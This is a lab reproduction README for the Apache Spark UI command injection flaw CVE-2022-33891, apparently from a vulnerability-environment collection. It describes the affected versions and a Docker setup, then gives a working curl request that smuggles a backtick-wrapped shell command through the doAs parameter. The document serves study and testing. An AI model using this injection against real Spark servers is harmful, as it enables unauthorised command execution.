

# Apache Spark UI Command Injection (CVE-2022-33891)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Spark is an open-source unified analytics engine for large-scale data processing.

Apache Spark UI supports ACL checks through the `spark.acls.enable` option. In affected versions, when ACLs are enabled, the `doAs` parameter can be used to impersonate an arbitrary user name, and Spark may later build a Unix shell command from that value while checking group permissions. This allows command injection in the Spark UI and can lead to arbitrary command execution as the user running Spark. This vulnerability affects Apache Spark 3.1.3 and earlier, and 3.2.0 through 3.2.1.

References:

- <https://spark.apache.org/security.html#CVE-2022-33891>
- <https://github.com/projectdiscovery/nuclei-templates/blob/7962af2c556163a397101d7636c5ddaf6220f5d5/http/cves/2022/CVE-2022-33891.yaml>
- <https://nvd.nist.gov/vuln/detail/CVE-2022-33891>

## Environment Setup

Execute the following command to start Apache Spark 3.2.1:

```
docker compose up -d
```

After the server starts, visit `http://your-ip:8080` to access the Spark master web UI.

## Vulnerability Reproduction

First, use `curl` to send a request to the Spark UI with a command embedded in the `doAs` parameter. The following request creates `/tmp/vulhub-cve-2022-33891` inside the container; the backticks are URL encoded so they are passed through the query string safely:

```
curl 'http://your-ip:8080/?doAs=%60touch%20%2Ftmp%2Fvulhub-cve-2022-33891%60'
```

The response is usually a `403` permission error because Spark continues the ACL check after executing the group lookup command. This is expected for this blind command injection path.

Then check the side effect inside the container:

```
docker compose exec web ls -l /tmp/vulhub-cve-2022-33891
```

If the vulnerability is triggered successfully, the command above will show that `/tmp/vulhub-cve-2022-33891` exists.


